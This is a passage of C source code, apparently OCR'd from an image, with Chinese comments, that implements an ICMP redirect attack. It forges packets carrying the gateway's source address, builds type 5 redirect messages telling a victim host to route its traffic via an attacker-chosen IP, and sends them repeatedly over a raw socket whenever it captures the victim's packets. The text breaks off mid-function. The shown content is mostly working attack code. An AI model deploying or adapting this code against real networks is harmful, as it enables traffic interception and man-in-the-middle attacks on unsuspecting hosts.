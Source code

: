 ```c
    ip->ip_source_address.s_addr = inet_addr(Ori_Gw);           //要伪造网关发送ip报文
    ip->ip_destination_address.s_addr = inet_addr(Target_IP);   //将伪造重定向包发给受害者

    //手动填充ICMP头部
    icmp = (struct icmp_header*)(buf+20);
    icmp->icmp_type = 5;//ICMP_REDIRECT
    icmp->icmp_code = 1;//重定向主机的数据报
    icmp->icmp_checksum = 0;
    icmp->icmp_gateway_addr.s_addr = inet_addr(Redic_IP);//告诉受害者 将网关ip改成redic_ip

    //存放之后填充的拷贝
    p = buf+28;
    for(i=0;i<datalen;++i)
    {
        p[i] = data[i];//拷贝抓来的ip头和数据部分前8字节
    }


    icmp->icmp_checksum = checksum((unsigned short *)icmp, 36);//8 + 20 + 8

    /*
     * 发送套接字
     * @param sockfd 发送端套接字描述符
     * @param buf    待发送数据缓冲区
     * @param 56     待发送数据IP头长度(20) + ICMP头部长度(8) + IP首部(20) + IP前8个字节
     * @param 0      flag标志位
     * @param dest   数据发送的目的地址，当然就是靶机
     * @param sizeof(dest) 地址长度
     */
    sendto(sockfd,buf,56,0,(struct sockaddr *)&dest,sizeof(dest));
    //printf("send\n");
}

//处理包
void parseIPHeader(const u_char *ip_packet)
{
    const struct ip_header *ip;
    ip = (struct ip_header*)ip_packet;
    int ip_header_len = ip->ip_header_length*4;

    if(ip_header_len<20)
    {
        //printf("Invalid IP header len!\n");
        return;
    }

    printf("Src :%s\n",inet_ntoa(ip->ip_source_address));

    if(!strcmp(Target_IP,inet_ntoa(ip->ip_source_address)))
    {
        //抓到被攻击者的数据包！
        //printf("find!\n");
        flag = 1;
        int count=0;
        while(1)
        {
            int sockfd,res;
            int one = 1;
            int *ptr_one = &one;
            //printf("here!\n");
            //构造的是ICMP报文
            if((sockfd = socket(AF_INET,SOCK_RAW,IPPROTO_ICMP))<0)
            {
```